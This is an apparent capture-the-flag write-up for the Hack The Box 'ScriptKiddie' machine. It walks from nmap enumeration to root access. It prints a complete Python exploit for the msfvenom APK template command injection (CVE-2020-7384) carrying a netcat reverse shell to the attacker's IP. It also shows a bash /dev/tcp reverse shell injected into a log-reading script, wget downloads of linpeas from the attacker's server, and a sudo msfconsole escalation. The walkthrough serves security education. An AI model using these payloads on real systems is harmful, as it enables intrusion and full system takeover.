




---
search:
  exclude: true
---
# ScriptKiddie Writeup

## Introduction :

ScriptKiddie is an easy box released back in Febuary 2021.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/ScriptKiddie]
    → nmap -vvv -p- 10.10.10.226 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 22/tcp on 10.10.10.226
    Discovered open port 5000/tcp on 10.10.10.226
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
    |   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
    |_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
    5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
    |_http-title: k1d'5 h4ck3r t00l5
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 7.79 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 5000 so let's investigate it:

There were alot of rabbitholes for this box early on, so here's the intended way:

Basically here you see that you are able to upload an android template file, and there is an exploit for it called [CVE2020-7384](https://www.exploit-db.com/exploits/49491):

So let's save it locally:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/ScriptKiddie]
    → vim exploit.py
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/ScriptKiddie]
    → cat exploit.py
    #!/usr/bin/env python3
    import subprocess
    import tempfile
    import os
    from base64 import b64encode
    
    # Change me
    **payload = 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2> &1|nc 10.10.14.13 9001 >/tmp/f'**
    
    # b64encode to avoid badchars (keytool is picky)
    payload_b64 = b64encode(payload.encode()).decode()
    dname = f"CN='|echo {payload_b64} | base64 -d | sh #"
    
    print(f"[+] Manufacturing evil apkfile")
    print(f"Payload: {payload}")
    print(f"-dname: {dname}")
    print()
    
    tmpdir = tempfile.mkdtemp()
    apk_file = os.path.join(tmpdir, "evil.apk")
    empty_file = os.path.join(tmpdir, "empty")
    keystore_file = os.path.join(tmpdir, "signing.keystore")
    storepass = keypass = "password"
    key_alias = "signing.key"
    
    # Touch empty_file
    open(empty_file, "w").close()
    
    # Create apk_file
    subprocess.check_call(["zip", "-j", apk_file, empty_file])
    
    # Generate signing key with malicious -dname
    subprocess.check_call(["keytool", "-genkey", "-keystore", keystore_file, "-alias", key_alias, "-storepass", storepass,
                           "-keypass", keypass, "-keyalg", "RSA", "-keysize", "2048", "-dname", dname])
    
    # Sign APK using our malicious dname
    subprocess.check_call(["jarsigner", "-sigalg", "SHA1withRSA", "-digestalg", "SHA1", "-keystore", keystore_file,
                           "-storepass", storepass, "-keypass", keypass, apk_file, key_alias])
    
    print()
    print(f"[+] Done! apkfile is at {apk_file}")
    print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
    
    

You can use this or we can just use metasploit:
    
    
    msf6 > search venom apk
    
    Matching Modules
    ================
    
       #  Name                                                                    Disclosure Date  Rank       Check  Description
       -  ----                                                                    ---------------  ----       -----  -----------
       0  exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection  2020-10-29       excellent  No     Rapid7 Metasploit Framework msfvenom APK Template Command Injection
    
    
    Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
    
    msf6 > use 0
    [*] No payload configured, defaulting to cmd/unix/reverse_netcat
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options
    
    Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       FILENAME  msf.apk          yes       The APK file name
    
    
    Payload options (cmd/unix/reverse_netcat):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.0.0.10        yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port
    
       **DisablePayloadHandler: True   (no handler will be created!)**
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    
    

Let's setup the required options and generate the apk template:
    
    
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST tun0
    LHOST => tun0
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 9002
    LPORT => 9002
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit
    
    [+] msf.apk stored at /home/nothing/.msf4/local/msf.apk
    msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exit
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/ScriptKiddie]
    → cp /home/nothing/.msf4/local/msf.apk .
    
    

Now let's prepare our netcat to catch the reverse shell on our port 9002, and upload the apk file:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/ScriptKiddie]
    → nc -lvnp 9002
    listening on [any] 9002 ...
    
    

` 
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/ScriptKiddie]
    → nc -lvnp 9002
    listening on [any] 9002 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.226] 36670
    id
    uid=1000(kid) gid=1000(kid) groups=1000(kid)
    
    cat ~/user.txt
    1dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And there you go! We have a reverse shell as the kid user, and thus we have been able to print the user flag. 

## **Part 3 : Getting Root Access**

Now before we enumerate the box let's get a fully interactive TTY shell: 
    
    
    which python python3 wget curl
    /usr/bin/python3
    /usr/bin/wget
    /usr/bin/curl
    
    #spawn a TTY with python3
    
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    
    
    #background the reverse shell process
    
    kid@scriptkiddie:~/html$ ^Z
    [1]  + 3083589 suspended  nc -lvnp 9002
    
    
    #set stty raw and foreground the process
    
    [ 10.10.14.13/23 ] [ /dev/pts/14 ] [~/HTB/ScriptKiddie]
    → stty raw -echo ; fg
    [1]  + 3083589 continued  nc -lvnp 9002
    
    #export the SHELL and TERM variables
    
    kid@scriptkiddie:~/html$ export SHELL=bash
    kid@scriptkiddie:~/html$ export TERM=screen-256color
    
    #set the TTY rows and columns for vi / nano 
    kid@scriptkiddie:~/html$ stty rows 40 columns 125
    kid@scriptkiddie:~/html$ reset
    
    

Now that we have a fully interactive TTY shell let's upload linpeas onto the box:
    
    
    [term1]
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/ScriptKiddie]
    → cp /home/nothing/Tools/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh  .
    
    [ 10.10.14.13/23 ] [ /dev/pts/3 ] [~/HTB/ScriptKiddie]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    
    [term2]
    
    kid@scriptkiddie:~/html$ wget http://10.10.14.13:9090/linpeas.sh -O /tmp/peas.sh
    --2021-06-08 12:04:57--  http://10.10.14.13:9090/linpeas.sh
    Connecting to 10.10.14.13:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                    100%[====================================================>] 333.85K  2.03MB/s    in 0.2s
    
    2021-06-08 12:04:57 (2.03 MB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    kid@scriptkiddie:~/html$ chmod +x /tmp/peas.sh
    kid@scriptkiddie:~/html$ /tmp/peas.sh
    
    

` 

Scrolling through the output we see that there is another user on the box named **pwn** :

So let's take a look at his home directory:
    
    
    kid@scriptkiddie:~/html$ ls -lash /home/pwn
    total 44K
    4.0K drwxr-xr-x 6 pwn  pwn  4.0K Feb  3 12:06 .
    4.0K drwxr-xr-x 4 root root 4.0K Feb  3 07:40 ..
       0 lrwxrwxrwx 1 root root    9 Feb  3 12:06 .bash_history -> /dev/null
    4.0K -rw-r--r-- 1 pwn  pwn   220 Feb 25  2020 .bash_logout
    4.0K -rw-r--r-- 1 pwn  pwn  3.7K Feb 25  2020 .bashrc
    4.0K drwx------ 2 pwn  pwn  4.0K Jan 28 17:08 .cache
    4.0K drwxrwxr-x 3 pwn  pwn  4.0K Jan 28 17:24 .local
    4.0K -rw-r--r-- 1 pwn  pwn   807 Feb 25  2020 .profile
    4.0K -rw-rw-r-- 1 pwn  pwn    74 Jan 28 16:22 .selected_editor
    4.0K drwx------ 2 pwn  pwn  4.0K Feb 10 16:10 .ssh
    4.0K drwxrw---- 2 pwn  pwn  4.0K Feb  3 12:00 recon
    4.0K -rwxrwxr-- 1 pwn  pwn   250 Jan 28 17:57 scanlosers.sh
    kid@scriptkiddie:~/html$ cd /home/pwn
    kid@scriptkiddie:/home/pwn$ cat scanlosers.sh
    #!/bin/bash
    
    log=/home/kid/logs/hackers
    
    cd /home/pwn/
    cat $log | cut -d' ' -f3- | sort -u | while read ip; do
        sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
    done
    
    if [ [ $(wc -l <****$log) -gt 0 ] ]; then echo -n > $log; fi

Here we see that there is a bashscript that takes a logfile from **/home/kid/logs/hackers** it, gets ip addresses from it and runs nmap against each of them. However the input isn't being sanitized, so let's use it to get a reverse shell:
    
    
    kid@scriptkiddie:/home/pwn$ echo -n "Z Y 10.10.14.13;/bin/bash -c 'bash >& /dev/tcp/10.10.14.13/9003 0>&1' #" >/home/kid/logs/hackers
    

And as soon as we run it we have a reverse shell connection:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/48 ] [~/HTB/ScriptKiddie]
    → nc -lvnp 9003
    listening on [any] 9003 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.226] 53822
    id
    uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
    
    

This time we get access to the pwn user, So let's spawn a fully interactive TTY just like we previously did:
    
    
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    pwn@scriptkiddie:~$ ^Z
    [1]  + 3150958 suspended  nc -lvnp 9003
    
    [ 10.10.14.13/23 ] [ /dev/pts/48 ] [~/HTB/ScriptKiddie]
    → stty raw -echo ; fg
    [1]  + 3150958 continued  nc -lvnp 9003
                                           export TERM=screen-256color
    pwn@scriptkiddie:~$ export SHELL=bash
    pwn@scriptkiddie:~$ stty rows 40 columns 200
    pwn@scriptkiddie:~$ reset
    

Now we run linpeas once again:
    
    
    pwn@scriptkiddie:~$ wget http://10.10.14.13:9090/linpeas.sh -O /tmp/peas.sh ; chmod +x /tmp/peas.sh ; /tmp/peas.sh
    
    

This time we see the following:

Apparently the pwn user can run **metasploit** as the root user, so let's do it:
    
    
    pwn@scriptkiddie:~$ sudo -l
    Matching Defaults entries for pwn on scriptkiddie:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User pwn may run the following commands on scriptkiddie:
        (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
    
    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
    
    
          .:okOOOkdc'           'cdkOOOko:.
        .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
       :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
      'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
      oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
      dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
      lOOOOOOOO.         ;d;         ,OOOOOOOOl
      .OOOOOOOO.   .;           ;    ,OOOOOOOO.
       cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
        oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
         lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
          ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
           .dOOo   .OOOOocccxOOOO.   xOOd.
             ,kOl  .OOOOOOOOOOOOO. .dOk,
               :kk;.OOOOOOOOOOOOO.cOk:
                 ;kOOOOOOOOOOOOOOOk:
                   ,xOOOOOOOOOOOx,
                     .lOOOOOOOl.
                        ,dOd,
                          .
    
           =[ metasploit v6.0.9-dev                           ]
    + -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
    + -- --=[ 592 payloads - 45 encoders - 10 nops            ]
    + -- --=[ 7 evasion                                       ]
    
    Metasploit tip: Display the Framework log using the log command, learn more with help log
    
    msf6 > bash
    [*] exec: bash
    
    root@scriptkiddie:/home/pwn# id
    uid=0(root) gid=0(root) groups=0(root)
    root@scriptkiddie:/home/pwn# cat /root/root.txt
    87XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And there you go! We managed to get a root shell and print the root flag.

## **Conclusion**

Here we can see the progress graph :

